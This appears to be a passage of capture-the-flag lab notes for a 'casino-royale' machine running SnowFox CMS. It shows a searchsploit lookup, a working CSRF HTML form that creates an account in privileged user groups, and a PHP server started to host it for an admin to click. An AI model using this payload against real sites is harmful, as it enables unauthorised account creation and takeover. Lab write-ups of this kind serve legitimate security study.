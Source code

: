 After updating /etc/hosts file: 

Link ended looking like this

http://casino-royale.local/vip-client-portfolios/?uri=blog

![Pasted image 20240115031514.png](/img/user/imgs/Pasted%20image%2020240115031514.png)

SnowFox CMS 

![Pasted image 20240115031537.png](/img/user/imgs/Pasted%20image%2020240115031537.png)

Seems the machine will check any email if the subject has a player name,

```bash
┌──(root㉿kali)-[~kali/exploitcasino]
└─# searchsploit Snowfox                
---------------------------------------------------- ---------------------------------
 Exploit Title                                      |  Path
---------------------------------------------------- ---------------------------------
Snowfox CMS 1.0 - Cross-Site Request Forgery (Add A | php/webapps/35301.html
---------------------------------------------------- -----------------------------

```
Vulnerable to a CSRF attack if someone with admin rights clicks my link, 

This exploit will create the user you give.

-->

```html
<html>
  <body>
    <form action="http://casino-royale.local/vip-client-portfolios/?uri=admin/accounts/create" method="POST">
      <input type="hidden" name="emailAddress" value="blackhexsage@darkthrone.mk" />
      <input type="hidden" name="verifiedEmail" value="verified" />
      <input type="hidden" name="username" value="blackhexsage" />
      <input type="hidden" name="newPassword" value="mypassword123" />
      <input type="hidden" name="confirmPassword" value="mypassword123" />
      <input type="hidden" name="userGroups[]" value="34" />
      <input type="hidden" name="userGroups[]" value="33" />
      <input type="hidden" name="memo" value="CSRFmemo" />
      <input type="hidden" name="status" value="1" />
      <input type="hidden" name="formAction" value="submit" />
      <input type="submit" value="Submit form" />
    </form>
  </body>
</html>
```

>BlackHexSage 
>HexReaper

```bash

                                                                                      
┌──(root㉿kali)-[~kali/exploitcasino]
└─# php -S 0.0.0.0:80
[Mon Jan 15 04:24:27 2024] PHP 8.2.10 Development Server (http://0.0.0.0:80) started

```
